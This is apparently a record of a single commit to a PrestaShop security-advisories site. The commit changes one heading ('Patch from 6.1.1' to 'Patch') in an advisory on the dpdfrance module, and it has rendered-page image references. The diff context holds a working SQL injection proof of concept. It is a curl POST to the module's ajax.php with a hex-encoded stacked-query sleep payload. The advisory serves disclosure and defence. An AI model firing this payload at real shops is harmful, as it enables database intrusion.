

Before and after one commit to friends-of-presta/security-advisories, a Jekyll site: the page built from _posts/2023-03-09-dpdfrance.md, in a window 1280 px wide and 900 px high, scrolled down 1270 px. Shown: the whole window, without its empty margins (238-1041 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Update 2023-03-09-dpdfrance.md

````diff
--- a/_posts/2023-03-09-dpdfrance.md
+++ b/_posts/2023-03-09-dpdfrance.md
@@ -54,7 +54,7 @@ In dpdfrance module for PrestaShop up to 6.1.3, multiple sensitives SQL calls in
 curl -v -X POST -d 'action_ajax_dpdfrance=setAddressOrder&order=1%27;select(0x73656C65637420736C656570283432293B)INTO@a;prepare`b`from@a;execute`b`;--' 'https://domain.tld/modules/dpdfrance/ajax.php?dpdfrance_token=EXPOSED_TOKEN_ON_FRONT_OFFICE'
 ```
 
-## Patch from 6.1.1
+## Patch
 
 ```diff
 --- a/dpdfrance/dpdfrance.php
````
